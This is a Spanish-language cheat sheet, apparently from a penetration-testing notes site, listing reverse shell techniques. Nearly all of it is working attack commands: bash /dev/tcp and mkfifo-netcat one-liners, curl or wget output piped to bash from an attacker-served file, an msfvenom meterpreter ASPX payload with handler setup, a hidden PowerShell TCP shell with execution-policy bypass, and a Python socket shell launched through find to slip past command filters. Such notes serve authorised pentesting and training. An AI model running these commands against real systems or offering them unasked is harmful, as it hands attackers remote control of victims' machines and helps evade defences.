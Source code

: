 ```yaml
---
title: "Reverse Shells"
layout: "single"
category: "Varios"
slug: "varios/reverse-shells"
date: "2025-09-30"
---
```


### Técnicas para una reverse shell
#### Consideraciones
* **En ocasiones el PUERTO puede determinar que funcione o no**
* **Si no funciona, probar a cambiar el tipo de comillas "" '' **
* **Si metemos la reverse shell en la URL, mejor URLencodear el comando**.
* **Si metemos la reverse shell a través de un comando con un exploit en el terminal,  poner el comando entre comillas**

#### Reverse shell en la URL con BASH
Si tenemos ejecución remota de comandos a través de una URL, podemos establecer una reverse shell con bash.  Nos ponemos a la escucha y ejecutamos el comando en la URL.

```bash
"bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
"bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'"
```

### Reverse shell en la URL con mkfifo

URLencodeando esto, y poniendonos a la escucha con netcat, podemos establecer una reverse shell.
```bash
#Ponernos a la escucha en la maquina atacante
nc -nlvp 8888

#Comando a ejecutar en la URL
rm /tmpf;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.3:8888 >/tmp/f
```

#### File upload PHP
Si podemos subir ficheros, una opción es subir un php malicioso con el código de la reverse shell, ponernos a la escucha, y visitar el fichero/url
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

#### RCE con CURL en BASH
En ocasiones el comando en la URL no funciona, pero si ejecuta comandos. Se puede meter el codigo malicioso en un fichero index.html, servir esto con python, y hacer un curl desde la URL (teniendo RCE a través de la URL).

1º- Crear un fichero index.html con el siguiente contenido (una de las 3):
```bash
"bash -i >& /dev/tcp/10.0.0.1/443 0>&1"
'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'
"bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'"
```

2º- Servir con python y ponernos a la escucha con netcat:
```python
pyton3 -m http.server 80
nc -nlvp 443
```

3º - Hacer un curl desde la URL y pipeamos con bash para interpretar el código.
```bash
"curl 'http://ip' | bash"
"wget 'http://ip' | bash"
```

### Reverse Shell en IIS Windows
En IIS funciona totalmente distinto a nginx y apache. En caso de no tener PHP, se puede entablar una reverse shell subiendo un fichero **.aspx** malicioso.

Para ello se crea un payload con msfvenom y se sube a la víctima
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tu_ip LPORT=tu_puerto -f aspx > payload.aspx
```

En el atacante
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tu_ip
set LPORT tu_puerto
```

#### RCE en IIS windows
Teniendo un cuadro de texto donde ejecutar comandos de sistema, nos ponemos a la escucha por el puerto que queramos y ejecutamos esta "linea"
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object System.Net.Sockets.TCPClient('192.168.100.5',4545); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()"
```

### Filtros command execution
En ocasiones podemos ejecutar algunos comandos, pero no "bash", "cat" o similares que puedan ser interpretados como una amenaza. Algunas alternativas son:

```bash
find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.42.127",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;

```